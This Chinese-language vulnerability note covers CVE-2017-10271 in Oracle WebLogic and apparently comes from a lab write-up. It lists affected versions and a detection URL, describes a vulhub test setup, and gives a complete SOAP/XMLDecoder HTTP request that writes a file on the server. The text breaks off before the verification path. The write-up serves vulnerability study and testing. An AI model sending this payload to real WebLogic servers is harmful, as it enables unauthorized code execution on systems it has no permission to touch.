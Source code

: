 # 相关
CVE-2017-10271
- 受影响版本：10.3.6.0.0，12.1.3.0.0，12.2.1.1.0，12.2.1.2.0
- 漏洞描述：WebLogic WLS组件中存在CVE-2017-10271远程代码执行漏洞，可以构造请求对运行WebLogic中间件的主机进行攻击，近期发现此漏洞的利用方式为传播挖矿程序。
- 漏洞检测：访问http://host:7001/wls-wsat/CoordinatorPortType返回如下，则可能存在此漏洞
![title](https://i.loli.net/2019/05/20/5ce24e619807844967.jpg)

# 验证环境搭建
使用vulhub的cve-2018-2628搭建

# POC
通过写入一个文件的形式进行简单验证
```
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: 127.0.0.1:7001
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:48.0) Gecko/20100101 Firefox/48.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Upgrade-Insecure-Requests: 1
Content-Type: text/xml
Content-Length: 756

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
      <soapenv:Header>
        <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
         <java version="1.6.0" class="java.beans.XMLDecoder">
                    <object class="java.io.PrintWriter"> 
                        <string>servers/AdminServer/tmp/_WL_internal/wls-wsat/54p17w/war/test.txt</string><void method="println">
                        <string>hello_world</string></void><void method="close"/>
                    </object>
            </java>
        </work:WorkContext>
      </soapenv:Header>
      <soapenv:Body/>
</soapenv:Envelope>
```
写入的路径是~/Oracle/Middleware/user_projects/domains/base_domain/servers/AdminServer/tmp/_WL_internal/wls-wsat/54p17w/war/test.txt
访问验证的路径是